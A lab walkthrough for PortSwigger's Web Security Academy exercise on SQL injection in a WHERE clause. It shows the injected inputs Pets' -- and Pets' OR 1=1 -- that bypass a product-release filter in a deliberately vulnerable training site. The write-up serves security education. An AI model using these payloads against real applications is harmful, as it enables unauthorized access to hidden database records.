 # Write-up: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![logo](img/logo.png)

This write-up for the lab "SQL injection vulnerability in WHERE clause allowing retrieval of hidden data" is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Difficulty: APPRENTICE  
Python script: [script.py](script.py)

## Lab description

- vulnerable to SQL injection
- parameter: URL argument category
- Query string used
- Result: Page contains filtered view of the category, showing only released products

### Goal

- Show unreleased products

## Query

Query is provided as

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The category string is likely taken directly from the URL argument

```sql
SELECT * FROM products WHERE category = '<PARAM>' AND released = 1
```

## Steps

### Find baseline

Find out what is the baseline, select Pets

--> 3 entries shown

### Ignore released part of query

Need to inject something that causes the 'AND released = 1' part to be ignored, for example by injecting a comment that ignores all the remaining part of the query.

```sql
SELECT * FROM products WHERE category = 'Pets' -- AND released = 1
```

For example, inject `Pets' --` which results in this query

```sql
SELECT * FROM products WHERE category = 'Pets' -- ' AND released = 1
```

Note the single quote after the `--`, which is added by the application. This would be a syntax error, but due to the comment it is ignored and we don't have to deal with it.

#### URL encode

The URL needs to be properly encoded. When using a browser, this will be done automatically by the browser but is not shown in the URL bar. When using Burp Repeater the URL encoding needs to be done manually with `Ctrl+U`

![url encode in burp](img/url_encode.png)

==> 4 entries shown

### Show all products regardless of category

To show all products, regardless of category or released status, inject a string that evaluates to `TRUE` for each entry in the table.

```sql
Pets' OR 1=1 --
```
This results in the query

```sql
SELECT * FROM products WHERE category = 'Pets' or 1=1 -- ' AND released = 1
```

which displays all entries as for each entry the condition 1=1 stays true. The lab updates to

![Result](img/result.png)
